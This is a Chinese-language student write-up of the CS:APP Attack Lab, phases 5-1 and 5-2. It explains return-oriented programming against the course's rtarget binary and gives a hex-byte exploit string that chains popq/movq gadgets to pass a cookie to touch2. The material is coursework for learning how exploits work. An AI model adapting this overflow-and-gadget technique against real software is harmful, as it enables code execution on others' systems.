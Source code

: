 

### 5-1

进入5之后的需要改变思维：即只有text中的代码可以运行，**是text中的任何位置！！**不过csapp老师实在是用心良苦，他们把这些指令都写在farm.c中了，是一些很巧妙的指令！！ （另外不能用 farm.c去编译然后在反汇编得到farm.d，因为现代的gcc发展太快了，作者介绍的这两种攻击方法在farm.d中都不行了。）**得使用反汇编rtarget的代码。**

这一部分主要是不能在栈中运行代码了，所以我们要想办法利用text中的部分

所以我们的步骤改为：

第一步：pop rax （拿到cookie）

第二步：mov rax，rdi （传递给touch3）

第三步: ret 调用

**答案如下**

```c
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00   /* 补齐至40 */
ab 19 40 00 00 00 00 00  /* popq rax 0x4019ab 0x4019a7 + 4 */
fa 97 b9 59 00 00 00 00  /* cookie 的值 */

a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */
ec 17 40 00 00 00 00 00  /* touch2 4017ec */
/* 0x5561dca8 */    35 39 62 39 39 37 66 61  /* str */
/* 0x5561dcb0 */    00 00 00 00 00 00 00 00 

/* 这个地址不行，92这条指令会改变 rax
b9 19 40 00 00 00 00 00  /* popq rax 0x4019b9 0x4019b5 + 4 */
```



### 5 -2

ps：这题需要足够的耐心，当然你会发现我接下来写的思路很顺畅，但是实际上，我专门将那几个函数的汇编代码写到了一个文件[man.s](https://gitee.com/lin-xi-269/csapplab/tree/master/lab3attack/target1/5-2/man.s)中，然后一个一个指令搜，这大概花了我两三个小时，才找完（主要是找加法和注释错误用了很多时间）。

这题和4-3是一样的，主要难点是我们不知道栈地址了，那么如何将string address 传给rdi呢？

我们发现，虽然栈初始地址是变化的，但是相对位置是不会变的，所以**我们应该在某一个时刻，获得rsp的值，并将其加上偏移量得到string address 然后传给rdi**

这样我们就要解决三个问题：

1. 在何时取得rsp？
2. 将rsp放到哪里去？
3. 如何实现加上偏移量这个操作，并传递给rdi？
4. 调用touch3

解决：

1. 在我们越界溢出的那个地方的rsp，在那剩下的操作是可控的，所以我们选择在那获取rsp。

2. 这个得看我们能找到哪些命令了，我找到了mov %rsp,%rax，所以就用这个了
